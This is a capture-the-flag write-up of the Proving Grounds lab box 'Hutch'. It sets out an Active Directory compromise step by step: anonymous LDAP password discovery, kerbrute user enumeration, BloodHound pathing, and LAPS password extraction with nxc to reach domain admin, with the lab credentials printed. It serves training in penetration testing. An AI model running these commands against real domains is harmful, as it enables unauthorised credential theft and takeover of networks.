# Hutch -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Hutch (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-11-23

---

## TL;DR

### AD box. LDAP anonymous bind leaked a password in a description field. Used those creds for SMB, then BloodHound showed a path to domain admin. LAPS password retrieved via nxc for the win.
---
## Target info

- Host: `192.168.199.122`
- Domain: `hutch.offsec`
---
## Enumeration

```bash
sudo nmap -Pn -n 192.168.199.122 -sCV -p- --open -vvv
```



Checked for WebDAV on IIS but root folder is password protected:

```bash
nmap -T4 -p80 --script=http-iis-webdav-vuln 192.168.199.122
```

Queried LDAP for users:

```bash
ldapsearch -x -b "dc=hutch,dc=offsec" "user" -H ldap://192.168.199.122 | grep dn
```



Validated users with kerbrute:

```bash
kerbrute userenum --dc 192.168.199.122 -d hutch.offsec formatted_name_wordlist.txt
```



---
## Initial foothold

Searched LDAP description fields for passwords:

```bash
ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.199.122 | grep description
```



Found `CrabSharkJellyfish192`. Confirmed it belongs to `fmcsorley`:

```bash
ldapsearch -x -b "dc=hutch,dc=offsec" "*" -H ldap://192.168.199.122 | grep CrabShark -A10
```



Verified with nxc:

```bash
nxc smb 192.168.199.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192'
```







---
## AD enumeration

Ran BloodHound -- found shortest path to domain admin from owned principals:



Ran enum4linux:

```bash
enum4linux -a -u "fmcsorley" -p "CrabSharkJellyfish192" 192.168.199.122
```



Found `domainadmin` user.

---
## Privesc -- LAPS

Retrieved LAPS password via nxc:

```bash
nxc ldap 192.168.199.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.199.122 -M laps
```



Got: `HUTCHDC$:Or9d6Ek(4DV0iI`

Since this is a domain controller, this is actually the domain admin password. Confirmed with nxc:

```bash
nxc winrm 192.168.199.122 -u users.txt -p 'Or9d6Ek(4DV0iI'
```





---
## Lessons & takeaways

- LDAP anonymous bind can leak passwords in user description fields
- LAPS passwords on a domain controller effectively give you domain admin
- Always run BloodHound to find the shortest path to domain admin
- kerbrute is useful for validating usernames found via LDAP
---
